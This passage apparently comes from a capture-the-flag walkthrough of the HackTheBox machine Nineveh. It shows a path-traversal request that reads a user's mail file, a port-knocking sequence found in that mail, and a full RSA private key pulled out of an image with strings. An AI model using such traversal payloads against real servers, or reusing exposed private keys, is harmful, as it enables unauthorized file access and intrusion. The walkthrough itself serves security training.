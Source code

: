 Amrois was the one who wrote the note on the webpage and is also now confirmed as a user on the machine. We can try reading its mail by opening `/var/mail/amrois`.

```http
GET /department/manage.php?notes=files/ninevehNotes/../../../../../../var/mail/amrois HTTP/1.1

From root@nineveh.htb  Fri Jun 23 14:04:19 2017
Return-Path: <root@nineveh.htb>
X-Original-To: amrois
Delivered-To: amrois@nineveh.htb
Received: by nineveh.htb (Postfix, from userid 1000)
        id D289B2E3587; Fri, 23 Jun 2017 14:04:19 -0500 (CDT)
To: amrois@nineveh.htb
From: root@nineveh.htb
Subject: Another Important note!
Message-Id: <20170623190419.D289B2E3587@nineveh.htb>
Date: Fri, 23 Jun 2017 14:04:19 -0500 (CDT)

Amrois! please knock the door next time! 571 290 911
```

This email could be a reference to [Port Knocking](https://wiki.archlinux.org/index.php/Port_knocking) where a port on the machine only opens after other ports have been knocked in the correct sequence, `571` `290` `911`.

## HTTPS Secure_notes image

This image probably hides some important information so we'll need to download it.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Nineveh$ mkdir images
luc@kali:~/Documents/Cyber-security/HTB/Nineveh$ cd images/
luc@kali:~/Documents/Cyber-security/HTB/Nineveh/images$ wget https://nineveh.htb/secure_notes/nineveh.png --no-check-certificate
```

We can use the `strings` command to see if there is any hidden text data in the image

```bash
luc@kali:~/Documents/Cyber-security/HTB/Nineveh/images$ strings nineveh.png
...
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
```